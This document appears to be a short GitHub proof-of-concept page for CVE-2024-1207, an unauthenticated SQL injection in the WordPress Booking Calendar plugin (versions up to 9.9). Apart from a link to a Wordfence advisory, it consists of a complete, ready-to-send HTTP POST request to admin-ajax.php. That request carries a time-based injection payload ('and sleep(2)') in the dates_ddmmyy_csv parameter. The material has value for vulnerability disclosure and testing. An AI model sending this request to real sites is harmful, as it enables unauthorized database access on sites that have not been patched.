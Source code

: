 # Booking Calendar <= 9.9 - Unauthenticated SQL Injection (CVE-2024-1207)

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/booking/booking-calendar-99-unauthenticated-sql-injection

POC:
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: vulnerablesite.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

action=WPBC_AJX_BOOKING__CREATE&wpbc_ajx_user_id=0&nonce=17920ccd94&wpbc_ajx_locale=en_US&calendar_request_params%5Bresource_id%5D=1&calendar_request_params%5Bformdata%5D=select-one%5Erangetime1%5E09%3A00+-+10%3A00~text%5Ename1%5EA~text%5Esecondname1%5EA~email%5Eemail1%5EA%40A.COM~text%5Ephone1%5E~textarea%5Edetails1%5E&calendar_request_params%5Bbooking_hash%5D=&calendar_request_params%5Bcustom_form%5D=&calendar_request_params%5Baggregate_resource_id_arr%5D=&calendar_request_params%5Bis_emails_send%5D=1&calendar_request_params%5Bactive_locale%5D=en_US&calendar_request_params%5Bdates_ddmmyy_csv%5D=17'))) and sleep(2)-- -.03.2024
```
